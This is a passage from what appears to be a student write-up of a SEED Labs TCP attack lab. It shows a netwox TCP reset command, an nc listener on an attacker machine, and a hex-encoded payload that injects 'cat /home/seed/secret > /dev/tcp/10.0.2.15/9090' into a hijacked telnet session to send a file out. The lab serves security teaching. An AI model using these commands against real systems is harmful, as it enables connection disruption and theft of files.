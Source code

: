 Or simply use `netwox` tool 78 to automatically reset the TCP connection.

```
sudo netwox 78 --filter "src host 10.0.2.5"
```

![](./ytb_rst_2.png)

# Task 4

First, assume the user establishes a `telnet` connection from the user to the server. There is a secret file `/home/seed/secret` on the server, if not, just create it.

```
echo "This is a secret file" > /home/seed/secret
```

Then, on the attacker machine, prepare a port (e.g. 9090) to get the data:

```
nc -lv 9090
```

## Netwox

Encode the payload `'\r cat /home/seed/secret > /dev/tcp/10.0.2.15/9090\r'` into a hex string:

```
$ python
Python 2.7.12 (default, Nov 19 2016, 06:48:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> '\r cat /home/seed/secret > /dev/tcp/10.0.2.15/9090\r'.encode('HEX')
'0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f31302e302e322e31352f393039300d'
```
